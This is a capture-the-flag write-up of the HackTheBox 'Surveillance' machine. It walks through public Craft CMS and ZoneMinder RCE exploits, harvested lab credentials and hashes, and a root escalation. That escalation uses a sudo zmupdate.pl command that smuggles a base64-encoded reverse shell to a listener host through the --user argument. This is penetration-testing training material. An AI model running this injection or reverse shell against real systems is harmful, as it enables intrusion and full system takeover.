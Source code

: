 ```yaml
---
layout: default_1
title: "Surveillance - HTB"
date: 2024-04-20
tags: writeup hackthebox surveillance
---
```


# HTB Surveillance Write Up
![HTB Surveillance](/assets/2024-04-20-writeups-surveillance-htb/machine_info.png "HTB Surveillance")


## Introduction
Surveillance provider company with focus com home security.

## Network Scan

<details>
<summary><b>Nmap scan result</b></summary>
<div markdown="1">
~~~
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN+/g3FqMmVlkT3XCSMH/JtvGJDW3+PBxqJ+pURQey6GMjs7abbrEOCcVugczanWj1WNU5jsaYzlkCEZHlsHLvk=
|   256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIm6HJTYy2teiiP6uZoSCHhsWHN+z3SVL/21fy6cZWZi
80/tcp   open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://surveillance.htb/
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
~~~
</div>

</details>


## Investigation
The http server redirects to a vhost `surveillance.htb`.  

The main website is static, and it was created with `Craft CMS`
![Main Website](/assets/2024-04-20-writeups-surveillance-htb/main_website.png "Main Website")
![Craft CMS](/assets/2024-04-20-writeups-surveillance-htb/craft_cms.png "Craft CMS")

The CMS version in hyperlinked in the website `https://github.com/craftcms/cms/tree/4.4.14`.  
This version is vulnerable to a RCE vulnerability with a public exploit - [CVE-2023-41892][cve-2023-41892]

Running the exploit return a shell with `www-data` user
```
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Manually enumerating the server, the following information was obtained
- Mariadb runnning on port 3306
- Two users with shell: matthew and zoneminder
- CraftCMS database credentials on .env file
   - user: craftuser
   - pass: CraftCMSPassword2023!
- Backup folder with a database dump
   - /var/www/html/craft/storage/backups/surveillance--2023-10-17-202801--v4.4.14.sql.zip

The current CMS database only had one user with a high iteration on the hash. This make it hard to crack, executed hashcat anyways.
`admin@surveillance.htb | $2y$13$FoVGcLXXNe81B6x9bKry9OzGSSIYL7/ObcmQ0CXtgw.EpuNcx8tGe`

Meanwhile, searching the backup for more information. The backup stored the admin pass with a weak hash.
`admin@surveillance.htb | 39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec`
Easily cracked to `starcraft122490`

Checking for password reuse and logged as matthew.
```
$ id
uid=1000(matthew) gid=1000(matthew) groups=1000(matthew)
```

No sudoers entry for this user. Moving on to run linpeas on the system.
Linpeas found another credential, this time for Zoneminder database on /usr/share/zoneminder/www/api/app/Config/database.php
- user: zmuser
- pass: ZoneMinderPassword2023

Search for more password hashes in the database and found another uncracked hash
`admin | $2y$10$BuFy0QTupRjSWW6kEAlBCO6AlZ8ZPGDI8Xba5pi/gLr2ap86dxYd.`

Moving on to zoneminder service. The service description is
`A full-featured, open source, state-of-the-art video surveillance software system.`
Again, vulnerable to Unauthenticated RCE [CVE-2023-26035][cve-2023-26035].

Moved to the other user on the box, zoneminder
```
$ id
uid=1001(zoneminder) gid=1001(zoneminder) groups=1001(zoneminder)
```

Verifying sudores:
```
$ sudo -l
...
(ALL : ALL) NOPASSWD: /usr/bin/zm[a-zA-Z]*.pl *
```

/user/bin/zm\*.pl is a suite of tools for the zoneminder service.
One way to exploit this suite is by abusing the zmupdate.pl tool, as shown in [this blog][zm-privesc].
Reverse shell example:
```
$ sudo /usr/bin/zmupdate.pl --version 1 --user='$(echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xMC4xMC81NTU1IDA+JjEK | base64 -d | bash)'
```

```
# whoami
root
```


[cve-2023-41892]: <https://gist.github.com/to016/b796ca3275fa11b5ab9594b1522f7226> "cve-2023-41892"
[cve-2023-26035]: <https://github.com/rvizx/CVE-2023-26035> "cve-2023-26035"
[zm-privesc]: <https://vk9-sec.com/privilege-escalation-zoneminder-scripts-command-injection-local/> "ZoneMinder PrivEsc"
